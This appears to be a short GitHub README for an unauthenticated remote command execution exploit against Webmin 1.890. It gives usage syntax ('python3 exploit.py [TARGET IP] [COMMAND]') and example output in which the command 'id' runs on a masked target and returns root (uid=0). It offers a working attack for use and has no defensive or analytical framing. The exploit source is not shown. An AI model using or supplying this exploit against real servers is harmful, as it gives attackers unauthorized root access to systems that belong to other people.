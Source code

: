 # WebMin-1.890-Unauthenticated-RCE

USAGE: python3 exploit.py [TARGET IP] [COMMAND]

Example Output:
python3 exploit.py 1**.2*.*.*** id

'<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>'

  
